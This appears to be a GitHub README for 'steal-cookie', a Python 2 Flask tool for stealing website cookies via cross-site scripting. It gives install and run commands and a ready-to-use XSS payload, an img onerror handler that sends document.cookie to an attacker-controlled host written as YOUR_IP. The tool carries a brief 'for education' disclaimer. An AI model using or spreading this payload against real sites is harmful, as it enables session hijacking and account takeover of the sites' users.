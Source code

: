 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://YOUR_IP/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>


